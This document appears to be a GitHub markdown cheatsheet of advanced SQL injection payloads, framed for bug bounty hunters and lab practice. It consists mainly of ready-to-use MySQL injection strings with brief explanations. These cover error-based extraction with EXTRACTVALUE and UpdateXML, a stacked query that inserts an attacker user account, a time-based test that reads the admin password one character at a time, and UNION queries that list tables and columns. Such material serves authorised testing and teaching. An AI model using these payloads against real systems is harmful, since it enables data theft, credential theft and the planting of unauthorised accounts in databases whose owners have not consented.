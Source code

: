 # Advanced SQL Injection Cheatsheet for Bug Bounties and Labs

## 1. Advanced SQL Syntax Manipulation Techniques

### Error-Based Data Extraction

```sql
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT database()), 0x7e)) -- -
```
**Explanation**: Forces MySQL to show an error message containing the database name between two tildes (~). The `0x7e` is hex code for tilde character.

```sql
' AND UpdateXML(1, CONCAT(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1), 0x7e), 1) -- -
```
**Explanation**: Similar to the above, but using UpdateXML to extract table names one by one.

### Stacked Queries (Multiple Queries)

```sql
'; INSERT INTO users (username, password) VALUES ('hacker','password123'); -- -
```
**Explanation**: Ends the current query with `;` then executes a new query that adds a new user account. Works when stacked queries are allowed.

### Conditional Time Delays for Data Extraction

```sql
'; SELECT IF(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a', SLEEP(5), NULL); -- -
```
**Explanation**: If the first character of admin's password is 'a', the database will pause for 5 seconds. This lets you extract data character by character.

## 2. Database-Specific Advanced Techniques

### MySQL Advanced

```sql
' UNION SELECT JSON_ARRAYAGG(CONCAT(table_schema,'.',table_name)) FROM information_schema.tables -- -
```
**Explanation**: Uses JSON functions to combine all table names into a single result, making data extraction more efficient.

```sql
' UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users' -- -
```
**Explanation**: Combines all column names from the "users" table into a single string, separated by commas.
